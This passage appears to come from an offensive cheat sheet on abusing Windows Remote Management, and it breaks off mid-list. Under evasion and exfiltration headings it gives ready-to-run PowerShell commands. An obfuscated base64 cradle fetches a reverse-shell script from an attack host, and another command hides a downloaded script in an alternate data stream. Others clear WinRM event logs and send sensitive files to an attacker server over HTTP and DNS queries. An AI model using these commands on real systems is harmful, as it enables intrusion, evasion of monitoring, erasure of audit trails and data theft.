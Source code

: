     Invoke-Command -ComputerName <target_ip1> -ScriptBlock { Invoke-Command -ComputerName <target_ip2> -ScriptBlock { Invoke-Command -ComputerName <target_ip3> -ScriptBlock { Get-Process } -Credential <username> } -Credential <username> } -Credential <username>
    ```

#### Defense Evasion

1. **Bypassing PowerShell Execution Policy**: Runs a PowerShell script on the remote system while bypassing execution policy restrictions.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { powershell -ExecutionPolicy Bypass -File C:\path\to\script.ps1 } -Credential <username>
    ```
2. **Obfuscating WinRM Commands**: Executes a base64-encoded command on the remote system to evade detection by security software.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aHR0cDovL2F0dGFjay5pcC9yZXZlcnNlLnBzMQ=='))) } -Credential <username>
    ```
3. **Using Alternate Data Streams (ADS) for Evasion**: Hides a PowerShell script in an alternate data stream (ADS) to avoid detection.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { cmd /c "powershell.exe -ExecutionPolicy Bypass -Command Invoke-Command -ScriptBlock { Invoke-WebRequest -Uri 'http://<attack_ip>/script.ps1' -OutFile 'C:\temp\script.ps1:hidden'; powershell.exe -File 'C:\temp\script.ps1:hidden' }" } -Credential <username>
    ```
4. **Hiding WinRM Traffic with Encrypted Channels**: Forces the use of SSL for WinRM traffic to encrypt communications and avoid interception.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -Port 5986 -UseSSL -ScriptBlock { Get-Process } -Credential <username>
    ```
5. **Clearing WinRM Logs**: Clears the WinRM event logs on the remote system to remove traces of remote activity.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Clear-WinEvent -LogName Microsoft-Windows-WinRM/Operational } -Credential <username>
    ```

#### Data Exfiltration

1. **Exfiltrating Files via WinRM**: Exfiltrates files from the remote system to the local machine.
    ```powershell
    $session = New-PSSession -ComputerName <target_ip> -Credential <username>
    Copy-Item -Path C:\remote\path\file.txt -Destination C:\local\path\file.txt -FromSession $session
    ```
2. **Exfiltrating Data Over HTTP**: Exfiltrates sensitive data by posting it to a web server controlled by the attacker.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Invoke-WebRequest -Uri 'http://<attack_ip>/receive.php' -Method Post -Body (Get-Content C:\sensitive_data.txt) } -Credential <username>
    ```
3. **Exfiltrating Data Using DNS**: Exfiltrates data by sending it as DNS queries to an attacker-controlled domain.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { $data = Get-Content C:\sensitive_data.txt; foreach ($line in $data) { nslookup "$line.attackerdomain.com" } } -Credential <username>
    ```
4. **Exfiltrating Large Files via WinRM**: Compresses and exfiltrates large files from the remote system to the attacker's server.
    ```powershell